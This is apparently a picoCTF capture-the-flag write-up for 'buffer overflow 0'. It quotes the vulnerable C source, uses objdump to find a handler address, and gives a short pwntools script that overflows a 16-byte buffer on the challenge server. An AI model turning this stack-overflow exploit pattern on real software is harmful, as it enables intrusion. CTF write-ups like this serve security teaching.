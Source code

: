 # buffer overflow 0

This challenge from [picoCTF] is a basic buffer overflow.

Looking at the code we can see that we will need to overflow a 16 bytes buffer, we will also add 8 bytes so we will change the return adress to `sigsegv_handler`.

```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

To get `sigsegv_handle` adress, we can use objdump:

```
❯ objdump -d vuln | grep sigsegv_handler
0000130d <sigsegv_handler>:
```

# Solve.py

```py
from pwn import *

payload = b'A' * (16+8) + p64(0x000130d)

r = remote('saturn.picoctf.net', 63520)

r.recvuntil('Input:')
r.sendline(payload)
r.interactive()
```